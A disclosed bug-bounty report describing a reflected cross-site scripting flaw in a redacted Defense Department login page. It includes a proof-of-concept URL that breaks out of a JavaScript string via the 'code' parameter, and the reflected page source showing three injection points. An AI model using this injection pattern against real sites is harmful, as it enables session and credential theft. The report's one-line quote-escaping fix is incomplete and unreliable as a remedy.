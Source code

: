 # XSS vulnerability found in javascript code of https://███.mil

## Report Details
- **Report ID**: 2888784
- **URL**: https://hackerone.com/reports/2888784
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2024-12-09T11:29:43.181Z
- **Disclosed**: 2025-01-24T14:45:50.786Z

## Reporter
- **Username**: thpless
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
### Description

Hello DoD Team

I  found an XSS vulnerability in the javascript code of  ██████████.mil. The parameter ***code***  isn't sanitized enough to prevent an attack. 

If you click the following link: https://███.mil/?code=xxx';%0d%0a!!!MALICIOUS%20CODE%20HERE!!!;%0d%0avar%20x='
the output looks as following.  
You can see the three injection points.

```javascript
<!doctype HTML>

<!-- BEGIN TopCategoriesDisplay.jsp --><!-- BEGIN SSORedirect.jsp -->

<script type="text/javascript">

function processUserLogon(action) {
	if(action == 'logon') {
		var e = document.getElementById("environment");
		env = e.options[e.selectedIndex].value;
		var logonIdParam = "";
		var userTypeParam = "";
		if(document.getElementById("logonId") != null) {
			logonIdParam = "&logonId=" + document.getElementById("logonId").value;
		}
		if(document.getElementById("userType") != null) {
			var userType = document.getElementById("userType");
			userTypeParam = "&userType=" + userType.options[userType.selectedIndex].value;
		}
		
		window.location.href = 'https://' + env + '/webapp/wcs/stores/servlet/ProcessUserSSO?catalogId=10051&langId=-1&storeId=' + 10801
			+ '&sso=true&ssoAction=' + action + '&code=xxx';
!!!MALICIOUS CODE HERE!!!;
var x='' + logonIdParam + userTypeParam + '&uoa=' 
			+ '&dodaac=' + document.getElementById('dodaac').value + '&json=' + document.getElementById('json').value;
	} else {
		window.location.href = 'ProcessUserSSO?catalogId=10051&langId=-1&sso=true&ssoAction=' + action + '&code=xxx';
!!!MALICIOUS CODE HERE!!!;
var x='';
	}
}

function getCode() {
	var clientId = "█████████";
	

	window.location.href = 'https://███████/portal/oauth2/authorize?response_type=code&client_id=' + clientId + '&redirect_uri=https://███.mil/webapp/wcs/stores/servlet/en/███?sso=true';	
}
</script>


<script type="text/javascript">

	ra2 = "false";
	if ((document.referrer.indexOf('-ra2.') !== -1)) {
		ra2 = "true";	
	}
	
	var clientId = "████████";
	
	
	window.location.href = 'ProcessUserSSO?catalogId=10051&langId=-1&app='+clientId+'&ra2='+ra2+'&ssoAction=logon&code=xxx';
!!!MALICIOUS CODE HERE!!!;
var x='&uoa=';

</script>
<!-- END SSORedirect.jsp --><!-- END TopCategoriesDisplay.jsp -->		
</html>
```

### Proof of Concept

https://███████.mil/?code=xxx';alert`XSS`;var%20x='

## Impact

An XSS attack on a login page can lead to credential theft, session hijacking, and user redirection to phishing sites, compromising sensitive data. Malicious scripts can capture user inputs, modify form actions, or steal session cookies, enabling attackers to impersonate victims. Implementing input validation, output encoding, and a strong Content Security Policy (CSP) can mitigate these risks.

## System Host(s)
███████.mil

## Affected Product(s) and Version(s)
Webserver

## CVE Numbers


## Steps to Reproduce
###use the link:

https://███████.mil/?code=xxx';alert`XSS`;var%20x='

## Suggested Mitigation/Remediation Actions
sanitize the character ' 

``` bash
'   ===>   \' 
```
should do it



## Attachments
No attachments
